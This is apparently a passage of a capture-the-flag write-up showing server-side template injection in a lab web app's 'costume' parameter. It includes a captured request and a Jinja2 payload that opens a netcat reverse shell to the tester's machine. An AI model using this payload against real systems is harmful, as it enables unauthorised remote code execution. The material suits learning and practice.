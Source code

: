 ```http
POST /order HTTP/1.1
Host: 10.129.96.151:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.129.96.151:5000
Connection: close
Referer: http://10.129.96.151:5000/order
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.SYLPqHmtbgIzpOiaVnKoifTOeTuOBMPy5adK8v0DD6E
Upgrade-Insecure-Requests: 1



costume=goggles&q=test&addr=test
```

A quick test reveals the `costume` parameter to be the injection point using `{{config.items()}}`.

<figure><img src="../../../.gitbook/assets/image (58) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here's a payload I used that got me a reverse shell:

```
{{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.39%204444%20%3E%2Ftmp%2Ff').read()+}}
```

<figure><img src="../../../.gitbook/assets/image (57) (3).png" alt=""><figcaption></figcaption></figure>
